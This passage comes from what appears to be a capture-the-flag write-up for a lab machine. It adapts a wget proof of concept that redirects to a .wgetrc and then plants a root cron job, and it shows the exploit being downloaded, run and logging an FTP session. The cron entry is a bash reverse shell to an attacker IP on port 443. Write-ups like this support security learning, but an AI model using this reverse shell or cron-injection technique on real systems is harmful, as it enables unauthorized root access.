 I’ll save a copy of the Python POC locally and make a few edits. It’s got `go_GET` and a `do_POST` methods to handle incoming requests. It assumed the first request will be a GET, and will redirect that to get the `.wgetrc`. Then the next request will be a POST if that worked, and that’s where it returns the `cron` file. Those functions are fine. There’s some configuration at the bottom that needs updating:

```

HTTP_LISTEN_IP = '10.0.3.1' 
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55' 
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' \n"

```

The HTTP listen needs to be on the IP that the container is connecting to.

Now the `cron` will result in a reverse shell. With a Python webserver in my VM, I’ll grab it with `wget`:

```

atanas@kotarak-dmz:/tmp/.0xdf$ wget 10.10.14.15/wget_exploit.py
--2021-05-15 13:38:07--  http://10.10.14.15/wget_exploit.py
Connecting to 10.10.14.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2616 (2.6K) [text/x-python]
Saving to: ‘wget_exploit.py’

wget_exploit.py     100%[===================>]   2.55K  --.-KB/s    in 0.001s  

2021-05-15 13:38:07 (2.50 MB/s) - ‘wget_exploit.py’ saved [2616/2616]

```

Now run it with `authbind`, and it checks that the FTP server is good, and then waits:

```

atanas@kotarak-dmz:/tmp/.0xdf$ authbind python wget_exploit.py 
Ready? Is your FTP server running?
FTP found open on 10.10.10.55:21. Let's go then

Serving wget exploit on port 80...

```

There is a connection at the FTP server as well:

```

[I 2021-05-15 13:43:25] 10.10.10.55:36996-[] FTP session opened (connect)

```

